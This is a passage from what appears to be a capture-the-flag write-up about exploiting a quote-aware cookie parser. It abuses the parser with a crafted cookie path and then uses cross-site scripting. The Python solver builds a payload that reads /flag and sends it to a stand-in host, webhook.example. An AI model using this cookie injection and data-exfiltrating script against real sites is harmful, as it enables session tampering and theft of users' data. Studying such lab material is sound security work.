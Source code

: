 ```csharp
                ++m_index;
            }
```

So if the cookie starts with `"` the parser interprets it as a double-quoted cookie. This way of parsing contradicts RFC, so we can exploit it.

Suppose the `Cookie` header looks like this: `a="beb; session=admin; b=ra"`. There are actually 3 different cookies:

```
{
    'a': '"beb',
    'session': 'admin',
    'b': 'ra"'
}
```

But the server would parse this as

```
{
    'a': 'a="beb; session=admin; b=ra"'
}
```

So the `session` cookie is inserted inside the `a` cookie. In order to place our cookie before `session` we need to set `Path=/xss` because chrome sorts cookies by path values.

Example solver:

```python
#!/usr/bin/env python3

def escape(html: str) -> str:
    return ''.join('%' + hex(ord(x))[2:].zfill(2) for x in html)

url = 'http://localhost:8989'
report = 'http://webhook.example/report'

step2 = f'''
<script>
    fetch('/flag')
        .then(x => x.text())
        .then(x => fetch('{report}?flag=' + encodeURIComponent(x)));
</script>
'''

step1 = f'''
<script>
    document.cookie = 'x="ss; Path=/xss';
    location.href = '/xss?xss={escape(step2)}';
</script>
'''

print(f'{url}/xss?xss={escape(step1)}')
```
